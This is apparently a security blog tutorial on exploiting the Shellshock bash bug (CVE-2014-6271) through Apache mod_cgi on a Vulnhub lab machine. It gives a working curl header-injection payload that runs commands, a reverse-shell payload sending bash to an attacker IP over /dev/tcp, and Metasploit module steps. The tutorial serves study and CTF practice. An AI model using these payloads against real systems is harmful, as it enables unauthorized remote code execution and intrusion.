 ```yaml
---
date: 2020-06-25 00:13:15
layout: post
title: "Exploiting a Shellshock Vulnerability"
subtitle:
description: In this article, I will be explaining how you can exploit a shellshock vulnerability manually as well as with metasaploit.
image: /assets/img/uploads/shellshock/shellshock-optimized.png
optimized_image:  /assets/img/uploads/shellshock/shellshock-optimized.png
category: exploitation
tags: CVE-2014-6271
author: madhavmehndiratta
paginate: false
keywords: shellshock, exploit shellshock manually, how to exploit shellshock vulnerability, shellshock vulnerability, exploit shellshock using metasploit, infosecarticles
---
```

<p align="justify"> One of the most critical bugs that came out in last decade was Shellshock, a vulnerability which allows attackers to execute arbitrary code via Unix Bash shell remotely. Shellshock is still a very real threat, especially for unpatched systems. It affected most versions of Linux and UNIX-based OSes. Nowadays, you will find this vulnerability in many CTF Challenges, so this article can help you to find a way by exploiting this vulnerability. </p>

## How this Vulnerability Works?

<p align="justify">
It is a security bug in the Unix Bash shell that causes Bash to execute bash commands from environment variables unintentionally. The vulnerability relies in the fact that BASH incorrectly executes trailing commands when it imports a function definition stored into an environment variable. Therefore, an attacker can execute arbitrary commands on the system or exploit other bugs that may exist in Bash's command interpreter, if the attacker has a way to manipulate the environment variable list. </p>

<center><br>
<img src="/assets/img/uploads/shellshock/shellshock-methodology.png">
</center>

Upon running the above command, an affected version of bash will output <b>"vulnerable".</b>


## Manual Exploitation

<p align="justify"> Shellshock is actually an entire family of vulnerabilities consisting of multiple exploitation vectors. In this guide, we will be exploiting the mod_cgi module that is part of the Apache HTTP Server. For this article, I'll be using a bootroot machine <a href="https://www.vulnhub.com/entry/sumo-1,480/">"Sumo:1"</a> from Vulnhub. I've also posted a detailed writeup for this machine, you can find it <a href= "https://infosecarticles.com/sumo-1-vulnhub-walkthrough/"> here.</a></p>

On running a quick nikto scan, we can see that this machine is vulnerable to the Shellshock Vulnerability.

<center><br>
<img src="/assets/img/uploads/shellshock/nikto.png">
</center>

To check the vulnerability, We need to send a request using curl to the target machine and we can see that we retrieved the "id" of current user.

```r
root@kali:~# curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://192.168.1.104/cgi-bin/test/test.cgi

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

This exploit works! We were able to modify the environment variable and execute the "id" command. Using the same approach we can also open a reverse shell.

```r
root@kali:~# curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.1.8/9001 0>&1' http://192.168.1.104/cgi-bin/test/test.cgi  
```

<center>
<img src="/assets/img/uploads/shellshock/shell.png">
</center>

<p align="justify"> The User-Agent value used in curl is stored as an environment variable on the remote machine. By default, this is set to <b>HTTP_USER_AGENT = curl/7.47.0</b> when using curl. However, this value can be modified. We can store malicious code that sets up a reverse shell inside this environment variable. </p>

## Exploitation using Metasploit

The same goal can also be achieved using Metasaploit. We can easily search for exploits by using the search command. We have many exploits available but the one we need is apache mod_cgi exploit.

<center><br>
<img src="/assets/img/uploads/shellshock/msf-search.png">
</center>

Load this module by using <b>use [module_name]</b> and then you can type <b>show options</b> to see the list of settings that we can change.

<center><br>
<img src="/assets/img/uploads/shellshock/msf-options.png">
</center>
<p align="justify">
For this attack, we need to set the <b>RHOSTS</b> to IP address of the target machine and <b>TARGETURI</b> to
the path where cgi_script is located. In this case it is /cgi-bin/test/test.cgi. Once these options are configured, we can run <b>check</b> to see if the target is vulnerable and then run the exploit. </p>

<center><br>
<img src="/assets/img/uploads/shellshock/msf-exploit.png">
</center>
<p align="justify"> A meterpreter session is opened, and now we can type <b>shell</b> which opens a shell on the target machine. That’s it! I hope you understood the concept of shellshock vulnerability and how to exploit it. Thanks for reading. Stay tuned for similar tutorials and much more coming up in the near future!
If you have any queries, you can contact me <a href="/contact">here.</a></p>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/zzzZet">Zet Aboard.</a>